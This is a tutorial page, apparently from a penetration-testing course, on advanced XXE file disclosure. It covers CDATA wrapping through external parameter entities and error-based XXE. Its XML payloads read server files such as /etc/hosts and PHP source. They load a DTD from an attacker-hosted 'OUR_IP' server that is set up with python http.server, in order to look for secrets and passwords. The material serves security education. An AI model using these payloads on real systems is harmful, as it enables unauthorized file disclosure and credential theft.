 # Advanced File Disclosure

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

***

## Advanced Exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```shell-session
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

{% hint style="info" %}
**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.
{% endhint %}

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.

***

## Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
